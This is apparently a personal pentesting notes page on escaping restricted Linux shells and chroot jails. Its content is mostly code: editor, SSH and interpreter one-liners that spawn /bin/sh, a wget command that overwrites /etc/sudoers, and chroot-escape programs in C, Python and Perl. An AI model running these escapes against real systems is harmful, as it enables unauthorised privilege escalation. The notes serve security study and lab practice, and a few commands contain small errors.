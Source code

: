 # Linux Shell Escapes

These not the same as [Bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) or [Python Sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), if I faceplant into needing to research those they wioll get there own article from further research than just greta Hacktricks.

Check [GTFObins](https://gtfobins.github.io/), most of the weird one from [https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) are in here

## Bash Jails

Enumerate -> commented Potential breakout
```bash
echo $SHELL # 
echo $PATH
echo /usr/bin/* # no ls no problem
# Check for operators:
# > >> < | & ; : ' " `
echo "bash -i" | tee script.sh # When 
env # 
export
pwd
which $bin 
${whoami} # shelle execution
# Editors?
 vi, nano, ed, vim 
# Programming/Scripting?
php, perl, python, ruby, lua
# Unwieldy list all commands - PSJoshi
compgen -c 
```

Vim and Vi - Beware requirements for ESP key in shell holding `Ctrl` and pressing `[` can work as alterative to access Vi(m) console.
```bash
set shell=/bin/sh
:shell
```

SSH breakout the bash
```bash
ssh -t user@$ip bash # Get directly an interactive shell
ssh user@$ip -t "bash --noprofile -i"
ssh user@$ip -t "() { :; }; sh -i "
ssh user@$ip -t "/bin/sh"
```

Bring your own sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

Declare
```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

Create a script that runs bash in a writable file in a writable directory
```bash
red /bin/bash
find / -perm -o w -type d 2>/dev/null
> w wx/path # Write /bin/bash in a writable and executable path
```

```bash
python -c 'import os; os.system("/bin/sh")'
php -r 'exec("sh -i");'
perl -e 'exec "/bin/sh"'
ruby -e 'exec "bin/sh"'
lua -e 'os.execute("bin/sh")'
awk 'BEGIN {system("/bin/sh")}'
find / -name foobar -exec /bin/sh \;
nmap --interactive
nmap> !sh
```


A [[Reverse-Shells-Listing]] that would call `/bin/bash` or `/bin/sh`?

Pagers like Less or More  - Hacknos, untested and not well documented - NullByte fixes that
```bash
# pager binaries
less $file.txt
more $file.txt
```

```
!'bash'
!/bin/bash
!/bin/sh
```

## Chroot 

If you are root inside a chroot you can escape creating another chroot. 

```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

Using Python
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```

Perl:
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```

## References

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash)
[Rbash escapes Article from hacknos](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
[Nullbyte](https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/)
[PSJoshi ans comgen -c](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)
[exploit-db article](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)